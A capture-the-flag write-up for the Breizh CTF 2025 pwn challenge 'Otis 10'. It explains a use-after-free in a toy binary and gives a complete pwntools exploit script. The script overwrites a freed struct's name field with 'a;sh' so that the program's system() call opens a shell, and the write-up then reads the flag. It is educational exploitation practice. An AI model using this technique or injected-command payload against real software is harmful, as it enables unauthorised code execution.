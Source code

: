 ```yaml
---
title: "Breizh CTF 2025 - Otis 10"
date: 2025-04-14
tags: ["pwn", "use-after-free", "heap-exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# Otis 10 - Breizh CTF 2025

## Challenge Description

Otis 10 is a Pwn challenge from Breizh CTF 2025. The binary simulates a transformation system between a cow and other creatures, and contains a classic Use-After-Free (UAF) vulnerability.

## Binary Analysis

The binary provides a menu with the following options:
- `n`: Create a new creature (allocates a new structure)
- `v`: Transform back into a cow (frees the creature)
- `m`: Moo! (allocates a message buffer and lets you input data)
- `r`: Roaaar! (calls `system()` with a command based on the creature's name)
- `q`: Quit

The relevant structure is:

```c
typedef struct {
    char msg[32];
    char name[64];
} creature_t;
```

The vulnerability arises because after freeing the `creature` pointer, it is not set to NULL. This allows a classic UAF scenario if a new allocation reuses the freed memory.

## Vulnerability

The exploitation flow is as follows:
1. Create a new creature (`n`), which allocates a `creature_t` structure.
2. Free the creature (`v`), but the pointer is not set to NULL.
3. Use the `m` option, which allocates a 96-byte buffer (same size as `creature_t`) and lets you input data. This allocation can reuse the freed memory.
4. The `r` option calls `system()` with a command that includes the creature's name, which is now under your control.

## Exploitation

The following exploit script demonstrates the attack:

```python
#!/usr/bin/env python3
from pwn import *

exe = "./otis_10"
context.binary = exe
context.terminal = ["kitty", "-e"]

def start():
    if args.GDB:
        return gdb.debug(exe, gdbscript="b main\nc")
    else:
        return process(exe)


def exploit(p):
    p.sendlineafter(b">", b"n")

    p.sendlineafter(b">", b"v")

    
    p.sendlineafter(b">", b"m")
    p.recvuntil(b"Message :")

    msg = b"A" * 32
    name = b"a;sh\x00"  
    payload = msg + name
    payload = payload.ljust(96, b"A")  

    p.sendline(payload)

    
    p.sendlineafter(b">", b"r")

    
    p.interactive()


if __name__ == "__main__":
    p = start()
    exploit(p)
```

### Exploit Explanation

- The exploit abuses the UAF by freeing the creature and then reallocating the same memory with controlled data.
- The `name` field is set to `a;sh\x00`, so when `system()` is called, the command becomes `echo 'Roarrr !' | /usr/games/cowsay -f a;sh`, which executes `sh` after the cowsay command fails.
- This results in a shell, allowing you to read the flag.

## Flag

Once the shell is obtained, you can retrieve the flag with:

```
$ cat flag.txt
BZHCTF{I_dont_have_this_flag_anymore}
``` 